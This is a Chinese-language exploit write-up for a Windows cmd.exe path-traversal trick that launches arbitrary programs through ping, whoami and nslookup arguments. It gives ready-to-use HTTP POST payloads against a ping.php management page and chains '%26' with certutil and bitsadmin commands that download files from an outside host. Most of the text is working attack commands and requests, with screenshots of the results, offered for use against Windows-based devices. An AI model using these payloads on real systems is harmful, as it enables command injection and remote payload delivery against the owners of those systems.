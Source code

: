 ## 利用方式
```shell
cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../../../../windows/system32/calc.exe"
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_Me8Xy2FL.png)

当然也不知ping命令还有一些也可以，例如下列

```shell
cmd.exe /c "whoami 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe" 
cmd.exe /c "nslookup 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe"
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_JXcHyMw3.png)



## 可能的使用场景
### 一些基于windows 系统的设备 web管理页面
**我们经常遇到一些基于Windows系统的设备，在其管理页面上具备ping功能，其目的是为了进行连通性测试或者资产发现等等。当然一些网站可能也有类似的功能。由于开发者安全意识的提高，以及SDL的推广落地，直接进行OS Command Injection的可能性非常低。利用这个方法解和上传漏洞（如果存在的话可以执行任何代码）**

windows 客户端测试不通过，在windows server 2012 测试如下
```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

ipaddress=127.0.0.1/../../../../../../../windows/system32/ipconfig.exe
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_a9n1zYCl.png)



### 远程下载文件
这个比较鸡肋，由于路径穿越执行命令是无法带参数，带参数就会报错

![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_16_fXgq5zKT.png)

但是在第第一个命令后带上&，两个命令一起执行，那么就能执行成功后面的命令

![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_16_GVq5rZty.png)

在这里将上面代码的`escapeshellcmd`函数去掉，添加%26，执行文件下载的命令

```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

ipaddress=127.0.0.1/../../../../../../../windows/system32/calc%26certutil.exe /urlcache /split /f http://192.168.200.76:8080/test.txt C:\\test.txt
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_q7ap1oQB.png)



![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_EY3cAMrv.png)





```shell
bitsadmin /transfer /myDownload /download /priority normal "http://192.168.200.76:8888/test.txt" c:\22.txt
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_BFCaxd3T.png)





![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_18_8yzxgOGP.png)



